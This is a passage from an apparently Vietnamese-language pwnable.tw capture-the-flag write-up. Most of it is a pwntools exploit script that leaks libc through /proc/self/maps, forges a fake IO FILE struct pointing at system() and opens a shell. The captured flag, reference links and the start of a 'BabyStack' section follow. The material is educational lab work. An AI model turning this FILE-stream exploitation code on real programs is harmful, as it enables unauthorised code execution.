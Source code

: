 ```python
def write():
    p.sendlineafter(b'choice :',b'3')

open_(b'/proc/self/maps')
read()
read()
write()

p.recvuntil(b'[heap]')
p.recvline()
libc.address = int(b'0x' + p.recv(8),16)
log.info(f'leak: {hex(libc.address)}')
p.recvlines(2)


fake_file_addr = 0x0804B300  # spare memory

payload = b'a' * 0x20 + p32(fake_file_addr)
payload += b'\x00' * (0x0804B300 - 0x0804B280 - 4)
# fake IO file struct  (size is 0x94)
# padding header with 0xFFFFDFFF and arg string
# the ||/bin/sh string is same as ;$0
payload += b'\xff\xff\xdf\xff;$0\x00'.ljust(0x94, b'\x00')
payload += p32(fake_file_addr + 0x98)
payload += p32(libc.sym.system) * 21

p.recvuntil('Your choice :')
p.sendline(b'5')
p.recvuntil('Leave your name :')
input()
p.sendline(payload)
p.interactive()
```


```Here is your flag: FLAG{F1l3_Str34m_is_4w3s0m3}```

ref :

https://www.jianshu.com/p/0176ebe02354

https://www.jianshu.com/p/a6354fa4dbdf

https://www.jianshu.com/p/2e00afb01606

https://hackmd.io/@kuvee/BypnRFkxye


-----------

## BabyStack 




checksec : 

![image](/assets/images/Pwnable.tw/29.png)


- ta thấy đầu tiên nó sẽ đọc giá trị random vào ```random``` và gán cho ```qword_202020``` , sẽ có 3 option chính ở bài này 
![image](/assets/images/Pwnable.tw/30.png)

```